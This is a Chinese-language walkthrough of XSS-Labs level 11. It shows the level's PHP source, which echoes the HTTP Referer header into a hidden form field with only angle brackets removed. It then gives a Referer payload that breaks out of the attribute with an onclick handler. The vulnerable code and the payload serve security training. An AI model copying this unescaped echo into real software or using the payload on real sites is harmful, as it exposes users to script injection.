 ### Referer XSS

话不多说，直接上题（XSS-Labs）

![](https://pic1.imgdb.cn/item/68137e9a58cb8da5c8d635fa.png)

**第十一关**

看一下源码

```php+HTML
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level12.php?keyword=good job!"; 
}
</script>
<title>欢迎来到level11</title>
</head>
<body>
<h1 align=center>欢迎来到level11</h1>
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_REFERER'];	// 接收 Referer 字段
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ref"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
<center><img src=level11.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str)."</h3>";
?>
</body>
</html>
```

过滤了 `<>`，不能直接插入 payload，但是没有过滤 `""` 考虑下事件绕过

```html
Referer: " onclick=javascript:alert() type="text
```

![](https://pic1.imgdb.cn/item/68146ee158cb8da5c8d68a5c.png)

点击弹窗

![](https://pic1.imgdb.cn/item/68146efe58cb8da5c8d68a5e.png)